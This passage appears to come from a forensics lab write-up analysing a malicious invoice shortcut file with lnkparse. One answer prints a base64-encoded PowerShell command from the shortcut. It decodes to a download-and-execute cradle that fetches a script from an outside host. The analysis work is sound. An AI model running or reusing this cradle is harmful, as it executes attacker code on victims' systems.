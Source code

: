 ![Attachment Password](screenshots/5.png)

#### 6. Encoded Payload in Command Line Arguments
**Question**: Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?

**Answer**: `aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==`

**Investigation**: Used `lnkparse` to analyze `Invoice_20230103.lnk`, extracting the base64-encoded payload from the Command Line Arguments field.

![Encoded Payload](screenshots/6.png)
